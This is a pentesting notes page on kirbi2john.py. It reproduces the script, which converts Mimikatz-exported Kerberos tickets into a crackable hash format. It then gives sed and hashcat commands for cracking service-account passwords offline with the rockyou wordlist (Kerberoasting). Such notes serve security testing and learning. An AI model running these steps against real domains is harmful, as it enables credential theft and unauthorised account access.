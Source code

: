 ```yaml
---
title: kirbi2john
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - mimikatz
  - kerberos
---
```

# kirbi2john.py

## Installation

At: [https://github.com/nidem/kerberoast/blob/master/kirbi2john.py](https://github.com/nidem/kerberoast/blob/master/kirbi2john.py).

Being the following script:


```
#!/usr/bin/env -S python3 -tt
# Based on the Kerberoast script from Tim Medin to extract the Kerberos tickets
# from a kirbi file.
# Modification to parse them into the JTR-format by Michael Kramer (SySS GmbH)
# Copyright [2015] [Tim Medin, Michael Kramer]
#
# Licensed under the Apache License, Version 2.0 (the "License");
# you may not use this file except in compliance with the License.
# You may obtain a copy of the License at
#
#    http://www.apache.org/licenses/LICENSE-2.0
#
# Unless required by applicable law or agreed to in writing, software
# distributed under the License is distributed on an "AS IS" BASIS,
# WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
# See the License for the specific language governing permissions and
# limitations under the License

from pyasn1.codec.ber import encoder, decoder
import glob
import kerberos


if __name__ == '__main__':
	import argparse
	import sys

	parser = argparse.ArgumentParser(description='Read Mimikatz kerberos ticket then modify it and save it in crack_file')
	parser.add_argument('-o', dest='crack_file', metavar='crack_file', type=argparse.FileType('w'), default=sys.stdout, nargs='?',
					help='File to save crackable output to (default is stdout')
	parser.add_argument('files', nargs='+', metavar='file.kirbi', type=str,
					help='File name to crack. Use asterisk \'*\' for many files.\n Files are exported with mimikatz or from extracttgsrepfrompcap.py')

	args = parser.parse_args()

	enctickets = []

	for path in args.files:
		for filename in glob.glob(path):
			et = kerberos.extract_ticket_from_kirbi(filename)
			if et:
				enctickets.append((et,filename))

	#out=open("crack_file","wb")
	for et in enctickets:
		filename = et[1].split('/')[-1].split('\\')[-1].replace('.kirbi','')

		out = '$krb5tgs$23$*' + filename + '*$' + et[0][:16].hex() + '$' +et[0][16:].hex() + '\n'

		args.crack_file.writelines(out)
	sys.stderr.write('tickets written: ' + str(len(enctickets)) + '\n')
```


## Basic usage

```shell-session
python2.7 kirbi2john.py Filename.kirbi
```

This will create a file called `crack_file`. We then must modify the file a bit to be able to use Hashcat against the hash.

```shell-session
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > ServiceName_tgs_hashcat
```

Cracking the Hash with Hashcat

```shell-session
hashcat -m 13100 ServiceName_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```
